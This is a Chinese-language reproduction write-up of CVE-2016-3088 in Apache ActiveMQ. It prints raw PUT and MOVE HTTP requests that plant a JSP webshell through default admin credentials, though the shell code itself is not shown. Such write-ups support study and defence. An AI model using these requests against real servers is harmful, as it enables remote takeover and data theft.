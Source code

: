 # （CVE-2016-3088）ActiveMQ应用漏洞

## 一、漏洞简介

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![image](images/img2.png)

```html
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
```

shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![image](images/img3.png)

```html
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0
```

shell

![image](images/img4.png)
